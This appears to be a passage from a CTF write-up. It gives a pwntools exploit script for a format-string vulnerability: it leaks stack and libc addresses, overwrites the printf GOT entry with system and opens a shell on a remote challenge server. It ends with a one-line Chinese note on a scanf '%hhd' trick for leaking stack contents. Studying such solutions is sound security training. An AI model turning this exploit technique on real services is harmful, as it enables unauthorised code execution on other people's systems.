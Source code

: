#### EXP:

```python
from pwn import *

context.log_level = "debug"

p=remote('123.57.69.203',7010)
#p = process('./b')
#gdb.attach(p)
e = ELF('./b')
libc = ELF('/home/hacker/Desktop/libc-2.27.so')

payload = '%2$p'
p.sendline(payload)
p.recvuntil('\x78')
leak=int(p.recv(8),16)
print(hex(leak))
payload='%8$p'
p.sendline(payload)
printf_got_addr=e.got['printf']

payload=p32(printf_got_addr)+'%6$s'
p.sendline(payload)
printf_addr=u32(p.recvuntil('\xf7')[-4:])
libc=printf_addr-0x512d0
print('libc_base--------->',libc)
hook=leak-0x88
ret_addr=0x080483da
ret_hook=ret_addr&0xffff
bin_sh=0x0017e1db+libc
system=0x0003d200+libc

low_offset=system&0xffff
high_offset=(system>>16)&0xffff
print('hook------------->',hex(hook))
print('low--------------->',hex(low_offset))
print('high-------------->',hex(high_offset))
payload=p32(printf_got_addr)+p32(printf_got_addr+2)+'%'+str(low_offset-8)+'c%6$hn'+'%'+str(high_offset-low_offset)+'c%7$hn'
p.sendline(payload)

p.sendline('/bin/sh')
p.interactive()
```



### 跳一跳

#### 总结：

1、scanf函数的参数为%hhd时，可以输入`-`在不覆盖栈中数据的情况下，占据一个字节，配合%s可以泄露栈中任何一个内容。
